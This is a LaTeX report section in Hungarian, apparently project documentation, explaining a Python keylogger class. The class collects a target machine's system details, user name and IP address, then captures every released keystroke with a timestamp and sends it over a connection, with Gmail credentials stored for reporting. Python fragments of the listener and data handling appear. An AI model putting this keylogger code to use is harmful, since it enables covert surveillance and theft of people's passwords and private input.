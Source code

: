 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
\subsection{KeyLoggerTarget osztály}\label{subsubsec:keyloggerclientclass}
Ez az osztály valósítja meg a lenyomott billentyűk kezelését. Hat attribútumot tartalmazó osztály: a kapcsolat, gmail cím, gmail jelszó, gmail szolgáltató, gmail port és a lenyomott billentyűt tartalmazó változó.

Az első adat nem követi a megállapított protokolt. Ez az adat tartalmazza a Target rendszerének információit:
\begin{itemize}
\item system name
\item device name
\item release
\item version
\item architecture
\item cpu info
\item user name
\item ip address
\end{itemize}
Ezek után el lesz indítva egy halgató, amely lehalgatja a számítógéphez csatlakoztatott billentyűzetet, amely akkor írja felül a $keys$ attribútumot, amikor a felhaszáló elengedi a billentyűt.
\begin{lstlisting}{language=Python}
keyboard_listener = Listener(on_release=self.on_release)
keyboard_listener.start()
\end{lstlisting}
Az attribútum felülírásáról az $on\_release$ függveny gondoskodik.
\begin{lstlisting}{language=Python}
def on_release(self, key):
	self.keys = key
\end{lstlisting}

A billentyűzet lehalgató után felépítődik az adat, amit a kapcsolaton keresztül elküld. Minden adatépítés után a $keys$ változó a $None$ értéket veszi fel. Adatépítésre és küldésre csak akkor kerül sor, ha a $keys$ változó nem $None$.
\begin{lstlisting}{language=Python}
if self.keys is not None:
	date_time = get_time()
	key = str(self.keys).replace("'", "")
	data = ["chars", date_time, key]
	self.keys = None
	data = str(data)
\end{lstlisting}
A $get\_time$ függvény visszatéríti az adott időt ``nap/hónap/év $|$ óra:perc:másodperc'' formátumban.
\begin{lstlisting}{language=Python}
'''
Gets current time

@return: time in dd/mm/yyyy | HH:MM:SS format
'''
def get_time():
	date_time = datetime.now().strftime("%d/%m/%Y | %H:%M:%S")
	return date_time
\end{lstlisting}
A $keys$ változóba karakterként vagy karakterláncként kerül a lenyomott billentyű, ezért le kell cseélni a szélső idézőjeleket üres karakterekre. Karakter helyett akkor kerül karakterlánc, ha olyan karaktereket nyomunk le, amelyek nem nyomtathatóak, például: $ENTER$, $SPACE$, stb. Ilyenkor $Key.enter$ vagy $Key.space$ stb formátumban kapjuk meg.
\end{document}
